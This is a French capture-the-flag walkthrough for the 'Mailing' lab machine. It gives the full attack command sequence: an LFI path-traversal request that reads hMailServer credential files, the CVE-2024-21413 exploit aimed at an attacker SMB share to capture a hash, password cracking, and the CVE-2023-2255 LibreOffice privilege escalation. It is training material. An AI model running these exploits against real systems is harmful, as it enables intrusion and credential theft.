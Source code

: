   # Mailing

	echo "10.10.11.14 mailing.htb" >> /etc/hosts
	sudo masscan -p1-65535,U:1-65535 10.10.11.14 -e tun0 > ports.txt
	sudo nmap -p- -sCV -T4 10.10.11.14 -oN nmap.txt
	feroxbuster --silent -u http://mailing.htb
	
Scans classiques.

    PORT    STATE SERVICE       VERSION
    25/tcp  open  smtp          hMailServer smtpd
    80/tcp  open  http          Microsoft IIS httpd 10.0
    110/tcp open  pop3          hMailServer pop3d
    135/tcp open  msrpc         Microsoft Windows RPC
    139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
    143/tcp open  imap          hMailServer imapd
    445/tcp open  microsoft-ds?
    465/tcp open  ssl/smtp      hMailServer smtpd
    587/tcp open  smtp          hMailServer smtpd
    993/tcp open  ssl/imap      hMailServer imapd


LFI dans le téléchargement des instructions : 

    GET /download.php?file=../../../../../windows/system.ini
    

Documentations : 

https://www.hmailserver.com/documentation/v4.4/?page=folderstructure
https://www.hmailserver.com/documentation/v5.4/?page=reference_inifilesettings

Obtention du hash du mot de passe de l'administrateur puis récupération sur CrackStation : 

    GET /download.php?file=../../../Program+Files+(x86)/hMailServer/Bin/hMailServer.INI

> AdministratorPassword=841bb5acfa6779ae432fd7a4e6600ba7


Connexion sur le service hMailServer :  

    telnet 10.10.11.14 110
    USER administrator@mailing.htb
    PASS homenetworkingadministrator
    LIST
    RETR 1
    RETR 2
    RETR 3
    
On a un mail de Maya.

Utilisation du CVE 2024-21413. 

https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability/blob/main/README.md

    sudo impacket-smbserver -smb2support -ip 0.0.0.0 share /tmp
    
    python3 CVE-2024-21413.py --server mailing.htb --port 587 --username administrator@mailing.htb --password homenetworkingadministrator --sender administrator@mailing.htb --recipient maya@mailing.htb --url '\\10.10.16.62' --subject bite
    
    hashcat -m 5600 hash.txt ~/wordlists/rockyou.txt

    evil-winrm -i 10.10.11.14 -u maya -p 'm4y4ngs4ri'
    cd ../Desktop
    type user.txt

## Élévation de privilèges

    Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select DisplayName
    
> LibreOffice 7.4.0.1

Utilisation du CVE 2023-2255 en prenant avantage du fait que l'administrateur passe voir dans 'C:\Important Documents'. Faire gaffe au langage en espagnol pour le nom du groupe.

    git clone https://github.com/elweth-sec/CVE-2023-2255.git
    cd CVE-2023-2255 
    python3 CVE-2023-2255.py --cmd 'net localgroup Administradores maya /add' --output 'privesc.odt'
    ...
    cd C:\Important Documents
    upload privesc.odt
    ...
    net user maya
    cd C:\Users\localadmin\Desktop
    type root.txt
